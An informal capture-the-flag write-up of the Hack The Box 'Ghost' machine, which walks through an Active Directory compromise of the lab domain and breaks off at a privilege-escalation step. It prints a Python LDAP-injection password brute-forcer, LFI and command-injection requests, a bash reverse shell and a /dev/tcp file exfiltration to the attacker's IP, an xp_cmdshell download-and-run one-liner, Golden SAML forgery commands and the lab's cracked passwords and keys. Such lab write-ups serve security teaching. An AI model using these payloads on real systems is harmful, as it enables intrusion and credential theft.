

Ghost is the one of the my fav box so far it was great.

## Entry
Before Start

```sh
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.11.24     DC01 DC01.ghost.htb ghost.htb hostmaster.ghost.htb intranet.ghost.htb bitbucket.ghost.htb gitea.ghost.htb core.ghost.htb federation.ghost.htb
```
Lets goooo!!!

### nmap

```sh
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-10 16:46:12Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
443/tcp  open  https?        syn-ack ttl 127
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RTM
2179/tcp open  vmrdp?        syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8008/tcp open  http          syn-ack ttl 127 nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: A9C6DBDCDC3AE568F4E0DAD92149A0E3
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: Ghost 5.78
|_http-title: Ghost
| http-robots.txt: 5 disallowed entries 
|_/ghost/ /p/ /email/ /r/ /webmentions/receive/
| http-methods: 
|_  Supported Methods: POST GET HEAD OPTIONS
8443/tcp open  ssl/http      syn-ack ttl 127 nginx 1.18.0 (Ubuntu)
```

we have really interesting ports open which is 53,1433,8008,8443 etc. We know its AD box but its not default we have something different here also so lets start with nxc

alright we can get DC and domain name here

```sh
➜  ghost nxc smb 10.10.11.24
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
```

and lets check if we have Guest access or smth like that

```sh
➜  ghost nxc smb 10.10.11.24 -u "Guest" -p '' 
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.24     445    DC01             [-] ghost.htb\Guest: STATUS_ACCOUNT_DISABLED 
```

### digging-deeper

we also have 53 so lets dig deeper here 😉

and yeah its seems great

```sh
➜  ghost dig any @10.10.11.24 ghost.htb 
```



so lets add it also at hosts file

okey now we can go for enum on webservers

## Web-Servers

at http://10.10.11.24:8008/ we got


alright we can also check another subdomain,directories and potentally usernames for next attacks

alright first potentally username

.png>)

username: [**`Kathryn Holland`**](http://ghost.htb:8008/author/kathryn/)

i also found another sobdomain here which is interesting

```sh
➜  ghost ffuf -u 'http://ghost.htb:8008' -H "Host: FUZZ.ghost.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 7676

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://ghost.htb:8008
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.ghost.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7676
________________________________________________

intranet                [Status: 307, Size: 3968, Words: 52, Lines: 1, Duration: 132ms]
```
and yeah we got here login page

### ldap-injection
http://intranet.ghost.htb:8008/login


lets try to login here maybe potentally injection

and yeah i think we found


its could be potentally ldap injection and lets see

https://www.cobalt.io/blog/introduction-to-ldap-injection-attack

so i will try just  `*` for both and lets see


and yeah we are in


and as u can see there is some information for us and i think we got another subdomains like bitbucket and gitea

we also get username list i think


fullusers_list

```sh
kathryn.holland  
cassandra.shelton  
robert.steeves  
florence.ramirez  
justin.bradley  
arthur.boyd  
beth.clark  
charles.gray  
jason.taylor  
intranet_principal  
gitea_temp_principal  
```
and other subdomains….
.png>)

lets add them looking for whats going on

and yeah i found something interesting at gitea


### ldap-injection-get-password

we have just 2 users and we can try to grab password for gitea_temp_principal cauze we have ldap injection already 😉

we just come back http://intranet.ghost.htb:8008/login

and try here ldap injection First off all we need status code when ldap injection works


its got come back 303 when ldap injection works and yeah we just need to configure our code for this

```py
        if r.status_code == 303:
            password += char
            print(f"password is: {password}")
            break
```

all code has to be something like that

```py
import string
import requests

url = 'http://intranet.ghost.htb:8008/login'

headers = {
    'Host': 'intranet.ghost.htb:8008',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
    'Connection': 'keep-alive'
}

password = ""
while True:
    for char in string.ascii_lowercase + string.digits:
        files = {
            '1_ldap-username': (None, 'gitea_temp_principal'),
            '1_ldap-secret': (None, f'{password}{char}*'),
            '0': (None, '[{},"$K1"]')
        }
        r = requests.post(url, headers=headers, files=files)
        if r.status_code == 303:
            password += char
            print(f"password is: {password}")
            break
    else:
        break

print(password)
```

and yeah we got it

```sh
➜  ghost python3 ldapinjection.py
password is: s
password is: sz
password is: szr
password is: szrr
password is: szrr8
password is: szrr8k
password is: szrr8kp
password is: szrr8kpc
password is: szrr8kpc3
password is: szrr8kpc3z
password is: szrr8kpc3z6
password is: szrr8kpc3z6o
password is: szrr8kpc3z6on
password is: szrr8kpc3z6onl
password is: szrr8kpc3z6onlq
password is: szrr8kpc3z6onlqf
szrr8kpc3z6onlqf
```

### gitea
gitea_temp_principal : szrr8kpc3z6onlqf

lets login!!!!!


and we are in 


i will check js file for potentally vulnerability


its LFI!!!!!!!!!!!!!!!! but before do this we need some extra informations


its here we have api key : `a5af628828958c976a3b6cc81a`

lets seee!!!!!!!

### LFI
```sh
➜  ghost curl -s "http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a" | jq .
{
  "posts": [
    {
      "id": "65bdd2dc26db7d00010704b5",
      "uuid": "22db47b3-bbf6-426d-9fcf-887363df82cf",
      "title": "Embarking on the Supernatural Journey: Welcome to Ghost!",
      "slug": "embarking-on-the-supernatural-journey-welcome-to-ghost",
      "html": "<p>Greetings, fellow seekers of the unknown!</p><p>It is wi
```

its work but we need another parameter for LFI which is here

.png>)

and yeah lets go LFI is here

its actually woork!!!!!!!!!

```sh
➜  ghost curl -s "http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../etc/passwd" | jq .
```


lets check important files
```sh
➜  ghost curl -s "http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../proc/self/environ" | jq .
```
and we got it


DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe

as u remember we have another project gitea which is ghost-dev so lets go there


and here 


and we got it

### RCE
```sh
➜  ghost curl -s -k -X $'POST' -H $'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' --data-binary $'{\"url\":\"; id # \"}' 'http://intranet.ghost.htb:8008/api-dev/scan' | jq
{
  "is_safe": true,
  "temp_command_success": true,
  "temp_command_stdout": "uid=0(root) gid=0(root) groups=0(root)\n",
  "temp_command_stderr": "bash: line 1: intranet_url_check: command not found\n"
}
```

so lets go!!!!

i will get access here directly

```sh
➜  ghost curl -X POST http://intranet.ghost.htb:8008/api-dev/scan -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"http://anything;/bin/bash -i >& /dev/tcp/10.10.14.26/443 0>&1"}'
```
and we got shell at container

```sh
root@36b733906694:/app# id
uid=0(root) gid=0(root) groups=0(root)
root@36b733906694:/app# hostname
36b733906694
```

lets goo!!!!!!!!!! we got shell as root and we can extract everything we want

im gonna run linpeas here causse it will be extract everyting i want i guess

```sh
╔══════════╣ Unexpected in root
/app                                                                                                           
/.dockerenv
/docker-entrypoint.sh
```
and we got something

```sh
root@36b733906694:~# env
DATABASE_URL=./database.sqlite
HOSTNAME=36b733906694
PWD=/root
HOME=/root
CARGO_HOME=/usr/local/cargo
LDAP_BIND_DN=CN=Intranet Principal,CN=Users,DC=ghost,DC=htb
LDAP_HOST=ldap://windows-host:389
LDAP_BIND_PASSWORD=He!KA9oKVT3rL99j
TERM=xterm
DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe
```

i think we can use this passwords for password spray while we have usernames list.

and yeah we got it

```sh
➜  ghost nxc smb DC01.ghost.htb -u usernames.txt -p 'He!KA9oKVT3rL99j'
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.24     445    DC01             [-] ghost.htb\kathryn.holland:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\cassandra.shelton:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\robert.steeves:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\florence.ramirez:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\justin.bradley:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\arthur.boyd:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\beth.clark:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\charles.gray:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\jason.taylor:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [+] ghost.htb\intranet_principal:He!KA9oKVT3rL99j 
```

lets try if its work for ldap then we can dump BH data

### first-bloodhound

```sh
➜  bloodhound bloodhound-python -ns 10.10.11.24 --dns-tcp -u 'intranet_principal' -p 'He!KA9oKVT3rL99j' --zip -c All -d ghost.htb 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: ghost.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.ghost.htb
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.ghost.htb
INFO: Found 16 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 20 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: linux-dev-ws01.ghost.htb
INFO: Querying computer: DC01.ghost.htb
WARNING: Could not resolve: linux-dev-ws01.ghost.htb: The resolution lifetime expired after 3.104 seconds: Server Do53:10.10.11.24@53 answered The DNS operation timed out.
INFO: Done in 00M 25S
INFO: Compressing output into 20250310162556_bloodhound.zip
```
now we can extact all usernames list
```sh
➜  bloodhound cat 20250310162556_users.json | jq -r '.data[].Properties.samaccountname' 
null
adfs_gmsa$
gitea_temp_principal
intranet_principal
jason.taylor
charles.gray
arthur.boyd
beth.clark
justin.bradley
florence.ramirez
robert.steeves
cassandra.shelton
kathryn.holland
krbtgt
Guest
Administrator
```

i will check if AS-REP or kerberoastable available
### kerberoasting

and with nxc its really easy

```sh
➜  ghost nxc ldap DC01.ghost.htb -u intranet_principal -p 'He!KA9oKVT3rL99j' --kerberoasting kerberoasting.txt
```

btw its not crackable

come back container and try to get another informations

```sh
root@36b733906694:/# cat docker-entrypoint.sh 
#!/bin/bash

mkdir /root/.ssh
mkdir /root/.ssh/controlmaster
printf 'Host *\n  ControlMaster auto\n  ControlPath ~/.ssh/controlmaster/%%r@%%h:%%p\n  ControlPersist yes' > /root/.ssh/config

exec /app/ghost_intranet
```
and here

```sh
root@36b733906694:~/.ssh/controlmaster# ls -la
total 12
drwxr-xr-x 1 root root 4096 Mar 10 16:44 .
drwxr-xr-x 1 root root 4096 Jul  5  2024 ..
srw------- 1 root root    0 Mar 10 16:44 florence.ramirez@ghost.htb@dev-workstation:22
root@36b733906694:~/.ssh/controlmaster# file florence.ramirez\@ghost.htb\@dev-workstation\:22 
florence.ramirez@ghost.htb@dev-workstation:22: socket
```

and booom

```sh
root@36b733906694:~/.ssh/controlmaster# ssh -S florence.ramirez\@ghost.htb\@dev-workstation\:22 %h
Last login: Thu Feb  1 23:58:45 2024 from 172.18.0.1
florence.ramirez@LINUX-DEV-WS01:~$ id
uid=50(florence.ramirez) gid=50(staff) groups=50(staff),51(it)
florence.ramirez
```

i found anything interesting at this container


we can get florence.ramirez cache here and use it for next attack

```bash
florence.ramirez@LINUX-DEV-WS01:/tmp$ ls -la
total 28
drwxrwxrwt 1 root             root   4096 Mar 10 20:54 .
drwxr-xr-x 1 root             root   4096 Mar 10 16:43 ..
-rw-r--r-- 1 root             root      0 Feb  1  2024 init_success
-rw------- 1 florence.ramirez staff  1650 Mar 10 20:54 krb5cc_50
```

u can use base64 its not huge file also we can use

```bash
➜  ghost nc -nvlp 1234 > kkrb5cc_50 </dev/null
florence.ramirez@LINUX-DEV-WS01:/tmp$ cat /tmp/krb5cc_50 > /dev/tcp/10.10.14.26/1234
florence.ramirez@LINUX-DEV-WS01:/tmp$ 
```
#### florence.ramirez-ccache
```bash
➜  ghost file kkrb5cc_50 
kkrb5cc_50: data
➜  ghost export KRB5CCNAME=kkrb5cc_50 
➜  ghost klist
Ticket cache: FILE:kkrb5cc_50
Default principal: florence.ramirez@GHOST.HTB

Valid starting       Expires              Service principal
03/10/2025 16:56:01  03/11/2025 02:56:01  krbtgt/GHOST.HTB@GHOST.HTB
        renew until 03/11/2025 16:56:01
```

and booom!!!

```bash
➜  ghost nxc smb DC01.ghost.htb -u florence.ramirez -k --use-kcache 
SMB         DC01.ghost.htb  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         DC01.ghost.htb  445    DC01             [+] ghost.htb\florence.ramirez from ccache 

```

and not time to go back and read what we got again

## ADIDNS poisoning 
.png>)

https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing

okey lets gooo


as u can see we need here [krbrelayx](https://github.com/dirkjanm/krbrelayx) but i think i will do it with bloodyAD

set respnonder first of all

Attack Vector

```bash
➜  bloodhound sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
```

and run bloodyAD

```bash
➜  ghost bloodyAD --host DC01.ghost.htb -d ghost.htb -k add dnsRecord bitbucket 10.10.14.26
[+] bitbucket has been successfully added

```
and boom!!!!!!


```bash
➜  ghost john justin.bradley_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Qwertyuiop1234$$ (justin.bradley) 
```

BOOOMMMMMMMM!!!!!!!

its also  worok for winrm and we got here user.txt


### ReadGMSAPassword

and boooom!!! we have gmsa password read.

```bash
➜  ghost nxc ldap DC01.ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$' --gmsa
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.24     636    DC01             [+] ghost.htb\justin.bradley:Qwertyuiop1234$$ 
LDAPS       10.10.11.24     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.24     636    DC01             Account: adfs_gmsa$           NTLM: 4b020ee46c62ff8181f96de84088ff37

```

BOOOM!!!!!

adfs_gmsa$ : 4b020ee46c62ff8181f96de84088ff37

```bash
➜  ghost nxc smb DC01.ghost.htb -u adfs_gmsa$ -H 4b020ee46c62ff8181f96de84088ff37 
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.24     445    DC01             [+] ghost.htb\adfs_gmsa$:4b020ee46c62ff8181f96de84088ff37 
```

its actually work for winrm too

```bash
➜  ghost nxc winrm DC01.ghost.htb -u adfs_gmsa$ -H 4b020ee46c62ff8181f96de84088ff37
WINRM       10.10.11.24     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:ghost.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.24     5985   DC01             [+] ghost.htb\adfs_gmsa$:4b020ee46c62ff8181f96de84088ff37 (Pwn3d!)

```

we got shell as adfs and maybe its about https://github.com/mandiant/ADFSDump

## ADFSDump
i will build solution with Microsoft Visual Studio 2022
.png>)
and

.png>)
okey lets run it

we got another information for next attack


its gonna work on [`https://core.ghost.htb:8443/adfs/saml/postResponse`](https://core.ghost.htb:8443/adfs/saml/postResponse)

now we will work with

## GOLDEN-SAML attack
[ADFSpoof](https://github.com/szymex73/ADFSpoof)
here is how to use


lets create bin files.

```bash
(myenv) ➜  ghost vim DMkey.txt
(myenv) ➜  ghost vim TKSkey.txt
(myenv) ➜  ghost cat TKSkey.txt | base64 -d > TKSkey.bin
(myenv) ➜  ghost cat DMkey.txt| tr -d "-" | xxd -r -p > DKMkey.bin
(myenv) ➜  ghost 
```

and txt files is here

```bash
➜  ghost cat DMkey.txt 
8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1
➜  ghost cat TKSkey.txt 
AAAAAQAAAAAEEAFyHlNXh2VDska8KMTxXboGCWCGSAFlAwQCAQYJYIZIAWUDBAIBBglghkgBZQMEAQIEIN38LpiFTpYLox2V3SL3knZBg16utbeqqwIestbeUG4eBBBJvH3Vzj/Slve2Mo4AmjytIIIQoMESvyRB6RLWIoeJzgZOngBMCuZR8UAfqYsWK2XKYwRzZKiMCn6hLezlrhD8ZoaAaaO1IjdwMBButAFkCFB3/DoFQ/9cm33xSmmBHfrtufhYxpFiAKNAh1stkM2zxmPLdkm2jDlAjGiRbpCQrXhtaR+z1tYd4m8JhBr3XDSURrJzmnIDMQH8pol+wGqKIGh4xl9BgNPLpNqyT56/59TC7XtWUnCYybr7nd9XhAbOAGH/Am4VMlBTZZK8dbnAmwirE2fhcvfZw+ERPjnrVLEpSDId8rgIu6lCWzaKdbvdKDPDxQcJuT/TAoYFZL9OyKsC6GFuuNN1FHgLSzJThd8FjUMTMoGZq3Cl7HlxZwUDzMv3mS6RaXZaY/zxFVQwBYquxnC0z
```

```bash
(myenv) ➜  ADFSpoof git:(master) ✗ python3 ADFSpoof.py -b ../TKSkey.bin ../DKMkey.bin -s ghost.htb saml2 --endpoint https://core.ghost.htb/adfs/saml/postResponse --nameidformat urn:oasis:names:tc:SAML:2.0:cm:bearer --nameid 'administrator@ghost.htb' --rpidentifier https://core.ghost.htb:8443 --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"> <AttributeValue>administrator@ghost.htb</AttributeValue>
</Attribute> <Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"> <AttributeValue>administrator</AttributeValue> </Attribute>'
    ___    ____  ___________                   ____
   /   |  / __ \/ ____/ ___/____  ____  ____  / __/
  / /| | / / / / /_   \__ \/ __ \/ __ \/ __ \/ /_  
 / ___ |/ /_/ / __/  ___/ / /_/ / /_/ / /_/ / __/  
/_/  |_/_____/_/    /____/ .___/\____/\____/_/     
                        /_/                        

A tool to for AD FS security tokens
Created by @doughsec

/home/elliot/Documents/HackTheBox/windows/ghost/ADFSpoof/ADFSpoof.py:96: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.utcnow()
PHNhbWxwOlJlc3BvbnNlIHhtbG5zOnNhbWxwPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6cHJvdG9jb2wiIElEPSJfOEdQWkozIiBWZXJzaW9uPSIyLjAiIElzc3VlSW5zdGFudD0iMjAyNS0wMy0xMFQyMzowMjo0MS4wMDBaIiBEZXN0aW5hdGlvbj0iaHR0cHM6Ly9jb3JlLmdob3N0Lmh0Yi9hZGZzL3NhbWwvcG9zdFJlc3BvbnNlIiBDb25zZW50PSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FN[SNIP]%3D%3D
```

first of all we have to login as justin.bradley@ghost.htb : Qwertyuiop1234$$ at federaion.ghost.htb


and booom!!!!!!!!


and u will get new request on Burp Suite


now we can give our GoldenSAML token to login here

```sh
(myenv) ➜  ADFSpoof git:(master) ✗ python ADFSpoof.py -b ../TKSkey.bin ../DKMkey.bin  -s core.ghost.htb saml2 --endpoint https://core.ghost.htb:8443/adfs/saml/postResponse --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid Administrator@ghost.htb --rpidentifier https://core.ghost.htb:8443 --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue>Administrator@ghost.htb</AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue>Administrator</AttributeValue></Attribute>'
    ___    ____  ___________                   ____
   /   |  / __ \/ ____/ ___/____  ____  ____  / __/
  / /| | / / / / /_   \__ \/ __ \/ __ \/ __ \/ /_  
 / ___ |/ /_/ / __/  ___/ / /_/ / /_/ / /_/ / __/  
/_/  |_/_____/_/    /____/ .___/\____/\____/_/     
                        /_/                        

A tool to for AD FS security tokens
Created by @doughsec

/home/elliot/Documents/HackTheBox/windows/ghost/ADFSpoof/ADFSpoof.py:96: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.utcnow()
PHNhbWxwOlJlc3BvbnNlIHhtbG5zOnNhbWxwPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6cHJvdG9jb2wiIElEPSJfMkxOU1VOIiBWZXJzaW9uPSIyLjAiIElzc3VlSW5zdGFudD0iMjAyNS0wMy0[SNIP]%3D%3D
(myenv) ➜  ADFSpoof git:(master) ✗ 
```


and booom!!!!!!!!


we can execute our sql commands here

lets execute some command here

## SQL


i will check linkedservers here


i will use PRIMARY here and login as ‘sa’

```python
EXECUTE('EXECUTE AS LOGIN = ''sa'';EXECUTE sp_configure "show advanced options", 1; RECONFIGURE; EXECUTE sp_configure "xp_cmdshell", 1; RECONFIGURE;exec xp_cmdshell "whoami"') AT [PRIMARY]

```


and i will load my beacon here

```bash
EXECUTE ('EXECUTE AS LOGIN = ''sa''; SELECT SYSTEM_USER;') AT [PRIMARY];

EXECUTE('EXECUTE AS LOGIN = ''sa'';EXECUTE sp_configure "show advanced options", 1; RECONFIGURE; EXECUTE sp_configure "xp_cmdshell", 1; RECONFIGURE;exec xp_cmdshell "whoami"') AT [PRIMARY]

EXECUTE('EXECUTE AS LOGIN = ''sa'';EXECUTE sp_configure "show advanced options", 1; RECONFIGURE; EXECUTE sp_configure "xp_cmdshell", 1; RECONFIGURE;exec xp_cmdshell "powershell -c IEX(New-Object Net.WebClient).DownloadString(''http://10.10.14.26/osman.ps1'')"') AT [PRIMARY]
```

booom!!!!!!!

```bash
➜  ghost python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.24 - - [10/Mar/2025 21:27:13] "GET /osman.ps1 HTTP/1.1" 200 -
```

and we got shell

```bash
➜  images nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.24] 49847

custom_prompt> whoami
nt service\mssqlserver

```

### SeImpersonatePrivilege

and yeah off course its SeImpersonatePrivilege as always after MSSQL 🤘

```bash
custom_prompt> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

i will use EfsPotato here

```bash
ps> C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe C:\temp\EfsPotato.cs -nowarn:1691,618
Microsoft (R) Visual C# Compiler version 4.8.4161.0

for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

ps> dir

    Directory: C:\temp

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         3/10/2025   7:15 PM          25441 EfsPotato.cs                                                         
-a----         3/10/2025   7:15 PM          17920 EfsPotato.exe                                                        
-a----         3/10/2025   7:06 PM            789 osman.ps1 
```

and run this

```bash
